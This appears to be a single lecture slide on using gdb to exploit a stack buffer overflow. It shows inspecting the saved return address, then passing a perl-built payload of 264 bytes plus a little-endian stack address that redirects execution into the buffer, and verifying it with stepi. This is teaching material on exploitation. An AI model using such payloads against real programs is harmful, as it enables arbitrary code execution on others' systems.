

# Using gdb
Saved eip is 0x78563412 (little endian ordering of 0x12345678)
X “rip at address” will also show this value
For example: x 0x7fffffffe628
Now, use the address of buf instead of 0x78563412
x buf
For example: set args `perl -e 'print "a"x264 . "\x20\xe5\xff\xff\xff\x7f";’`
run
Continue
stepi (at this point the program address is the address of buf)
p $rip
x/10c $rip should give all a’s